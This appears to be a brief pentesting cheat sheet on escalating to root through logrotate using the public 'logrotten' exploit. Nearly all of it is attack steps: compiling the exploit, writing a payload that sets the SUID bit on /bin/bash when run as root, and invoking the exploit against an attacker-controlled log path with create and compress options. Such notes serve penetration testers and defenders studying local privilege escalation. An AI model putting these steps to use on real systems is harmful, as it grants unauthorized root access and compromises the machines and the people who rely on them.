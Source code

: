# Logrotate

## Resources: https://github.com/whotwagner/logrotten Logrotten

### REQUIREMENTS:

#### 1) Logrotate has to be executed as root
#### 2) The logpath needs to be in control of the attacker
#### 3)Any option that creates files is set in the logrotate configuration

### STEPS:

#### 1) Download binary from the repo, then compile 

    gcc logrotten.c -o logrotten

#### 2) 

    echo "if [ `id -u` -eq 0 ]; then (chmod +xs /bin/bash); fi" > payload

#### 3) 

    ./logrotten -p ./payload /tmp/log/pwnme.log (Create option)

#### 3) 

    ./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log (Compress Option)
